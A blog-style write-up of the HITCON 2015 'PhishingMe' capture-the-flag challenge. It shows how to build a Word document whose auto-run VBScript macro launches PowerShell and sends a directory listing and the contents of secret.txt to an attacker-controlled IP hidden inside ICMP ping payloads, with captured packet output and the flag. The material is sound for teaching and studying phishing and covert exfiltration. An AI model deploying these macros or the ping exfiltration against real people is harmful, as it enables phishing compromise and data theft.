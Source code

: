 ```yaml
---
layout: post
title:  "HITCON - PhishingMe"
date:   2015-10-19 18:03:59
categories: ctf phishing
---
```


```
Sent me a .doc, I will open it if your subject is "HITCON 2015"!
Find the flag under my file system. 
p.s. I've enabled Macro for you. ^_________________^
phishing.me.hitcon.2015@gmail.com.
```

PhishingMe was an introduction into the fun world of Phishing via VBScript macros in a `.doc`. Here we go!

## Prep Malicious File

First things first. We need a Microsoft Word `.doc` that will auto run a script on opening. The process used is described below.

Create a new `.doc` and open up the `Macros` window from the `Developer` tab.


![macro](/assets/images/macro1.png)

Create a new macro.

![macroagain](/assets/images/macro2.png)

For our macro, we will attempt to run a simple command via `cmd.exe`.

```
Sub Auto_Open()
    Call Debugging
End Sub

Sub AutoOpen()
    Call Debugging
End Sub

Public Function Debugging() As Variant
    Set objShell = CreateObject("Wscript.Shell")
    strCmd = "cmd.exe /c ""ping SERVER_IP"""
    Set objExec = objShell.Exec(strCmd)
End Function
```

Drop this script into the macro window and save that bad boy.

![macroagainagain](/assets/images/macro3.png)

To test that the command executed, let's watch for ping requests on our server.

```
tcpdump -nXX icmp
```

Save the `.doc`, reopen it, and see if we see our ICMP `echo request` on the server.

```
10:25:49.351725 IP MY-TEST-IP > MY-IP: ICMP echo request, id 1, seq 21, length 40
```

Shweet! The `.doc` is working on our end. Let's see if it works on the victim's end. We email the `.doc` to `phishing.me.hitcon.2015@gmail.com` and wait again to see if we see traffic on our server.

```
10:29:21.411226 IP VICTIM-IP > MY-IP: ICMP echo request, id 1, seq 21, length 40
```

Boom! Now we know that we have command execution! What can we do with this?

## Trial and Error

The first target was the common CTF strategy: get a shell and cat the flag. We can attempt to do this with a Powershell RAT from [PowershellEmpire](http://powershellempire.com). After about 30 - 45 minutes of testing, we realize the callbacks are not reaching our server from the victim, even though they work locally with a test environment. There must be a firewall or something blocking outbound traffic in the way. But we received traffic from the server already.. hmm..

## Padding FTW

We know that ICMP `echo requests` reach our server just fine. We also know that we can execute commands via our VBScript. Is there a way to send `ping`s via something like.. Powershell?! (I got really excited since this was my first time to use Powershell in a CTF). Let's see how we can send an ICMP `echo request`.

[Microsoft's](https://msdn.microsoft.com/en-us/library/ms144953.aspx) page on `System.Net.NetworkInformation.Ping` is shown below:

![Ping1](/assets/images/ping1.png)

![Ping2](/assets/images/ping2.png)

Looks like all we need is to pass an IP address, timeout, and.. what is that? a buffer? in an ICMP `echo request`? Let's take a look at the RFC for ICMP `echo request`.

![RFC](/assets/images/ping-rfc.png)

As it turns out, there is a data buffer in an ICMP `echo request` which we can set ourselves via the third parameter in the `Send` function.

Calling this function in Powershell looks something like this:

```
(New-Object System.Net.NetworkInformation.Ping).Send(server_ip, timeout, buffer)
```

In theory we should be able to pass the results of a command in the buffer field and see the results in our `tcpdump` output. Let's do a quick `dir` via ICMP.

```
powershell "$dir=dir;
(New-Object System.Net.NetworkInformation.Ping).Send('SERVER_IP', 1000, $dir)"
```

Ah, quick problem here. `Send` is expecting a `Byte[]` for the buffer parameter. Quick conversion will fix that.

```
powershell "$dir=dir;
(New-Object System.Net.NetworkInformation.Ping).Send('SERVER_IP', 1000, [system.Text.Encoding]::UTF8.GetBytes($dir)"
```

Replacing this command in our VBScript should yield success. (Note, `""` is the way to escape `"`)

```
Sub Auto_Open()
    Call Debugging
End Sub

Sub AutoOpen()
    Call Debugging
End Sub

Public Function Debugging() As Variant
    Set objShell = CreateObject("Wscript.Shell")
    strCmd = "powershell ""$dir=dir;(New-Object System.Net.NetworkInformation.Ping).Send('OUR_SERVER_IP', 1000, [system.Text.Encoding]::UTF8.GetBytes($dir)"""
    Set objExec = objShell.Exec(strCmd)
End Function
```

Throwing this at the victim shows very interesting results.

```
10:10:00.816080 IP VICTIM_IP > OUR_SERVER_IP: ICMP echo request, id 1, seq 19, length 75
0x0030:  6773 2050 726f 6772 616d 2046 696c 6573  gs.Program.Files
0x0040:  2050 726f 6772 616d 2046 696c 6573 2028  .Program.Files.(
0x0050:  7838 3629 2055 7365 7273 2057 696e 646f  x86).Users.Windo
0x0060:  7773 2073 6563 7265 742e 7478 74         ws.secret.txt
```

Well, well, well.. `secret.txt` looks interesting. Let's finanlly replace the `dir` with `type secret.txt` and see if we see good results.

```
Sub Auto_Open()
    Call Debugging
End Sub

Sub AutoOpen()
    Call Debugging
End Sub

Public Function Debugging() As Variant
    Set objShell = CreateObject("Wscript.Shell")
    strCmd = "powershell ""$dir=type secret.txt;(New-Object System.Net.NetworkInformation.Ping).Send('OUR_SERVER_IP', 1000, [system.Text.Encoding]::UTF8.GetBytes($dir)"""
    Set objExec = objShell.Exec(strCmd)
End Function
```

```
10:11:35.383781 IP VICTIM_IP > OUR_SERVER_IP: ICMP echo request, id 1, seq 20, length 52 
...
0x0020:  .... .... .... .... .... 6869 7463 6f6e  hitcon
0x0030:  7b6d 3463 7230 5f6d 6131 7761 7265 5f31  {m4cr0_ma1ware_1
0x0040:  735f 6d34 6b31 6e67 5f61 5f63 306d 6562  s_m4k1ng_a_c0meb
0x0050:  3463 6b21 217d                           4ck!!}
```

And look what we have here..

```
hitcon{m4cr0_ma1ware_1s_m4k1ng_a_c0meb4ck!!}
```

Super cool challenge and not a bad way to use Powershell.

More information on ping exfiltration: [here](http://blog.ring-zer0.com/2014/02/data-exfiltration-on-linux.html)

